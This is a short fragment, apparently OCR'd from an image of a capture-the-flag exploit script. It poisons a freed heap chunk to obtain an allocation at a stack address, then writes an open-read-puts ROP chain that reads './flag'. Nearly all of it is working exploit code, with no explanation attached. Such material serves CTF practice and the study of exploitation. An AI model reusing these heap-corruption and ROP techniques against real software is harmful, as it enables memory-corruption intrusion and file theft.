```plain

delete(3)
delete(2)

add(0x90,p64(0)+p64(0x91)+p64(stack_addr))
add(0x80,'aaaa')

flag_addr = stack_addr
ppp=stack_addr+0x200

pl=b'./flag\x00\x00'
pl+=p64(pop_rdi_ret)+p64(flag_addr)+p64(pop_rsi_ret)+p64(0)+p64(open_addr)
pl+=p64(pop_rdi_ret)+p64(3)+p64(pop_rsi_ret)+p64(ppp)+p64(pop_rdx_ret)+p64(0x50)+p64(read_addr)
pl+=p64(pop_rdi_ret)+p64(ppp)+p64(puts_addr)
add(0x80, pl)

'''
'''
#duan()
itr()
```
